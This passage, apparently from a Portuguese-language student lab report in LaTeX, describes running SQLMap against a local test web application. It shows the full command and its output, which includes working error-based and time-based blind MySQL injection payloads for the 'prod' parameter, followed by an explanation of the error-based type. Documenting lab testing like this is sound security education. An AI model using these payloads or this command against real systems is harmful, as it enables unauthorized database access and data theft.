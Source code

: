 \documentclass[10pt,english]{article}
\begin{document}
\begin{itemize}
    
    \par Esta vulnerabilidade, sendo a que mais facilmente apresenta os dados pedidos à base de dados e permite inserção de comandos \textit{SQL} no \textit{url} foi a candidata ideal para a utilização da ferramenta \textit{SQLMap}, referida anteriormente.
    
    \par Utilizando as opções \textit{--level} e \textit{--risk} para testar mais pontos de entrada e aumentar a complexidades das \textit{queries} respetivamente, foi possível obter as seguintes informações:
    
    \begin{lstlisting}
python sqlmap.py -u 'http://192.168.56.102/details.php?prod=1' --level=5 --risk=3 
---
Parameter: prod (GET)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: prod=1 AND (SELECT 9674 FROM(SELECT COUNT(*),CONCAT(0x7176707671,
    (SELECT (ELT(9674=9674,1))),0x716a7a6a71,FLOOR(RAND(0)*2))x 
    FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: prod=1 AND (SELECT 4544 FROM (SELECT(SLEEP(5)))FOjk)
---
[00:20:20] [WARNING] changes made by tampering scripts are not included in shown
payload content(s)
[00:20:20] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[00:20:20] [WARNING] HTTP error codes detected during run:
400 (Bad Request) - 15972 times
[00:20:20] [INFO] fetched data logged to text files under 
'/Users/paiva/.local/share/sqlmap/output/192.168.56.102'

[*] ending @ 00:20:20 /2020-11-12/
    \end{lstlisting}
    \clearpage
    \par Deste resultado é possível detetar a existência de dois tipos de \textit{SQL Injection}:
    
    \begin{itemize}
        \item {\textbf{Error-based}}
        
        \par Onde o \textit{SQLMap} substitui ou adiciona ao parâmetro \textit{prod} uma \textit{query} que provoca um erro, procurando depois na resposta o erro que deveria ter sido provocado. Apenas funciona devido à aplicação web ter sido configurada para apresentar erros do sistema da base de dados.
        

\end{itemize}
\end{itemize}
\end{document}
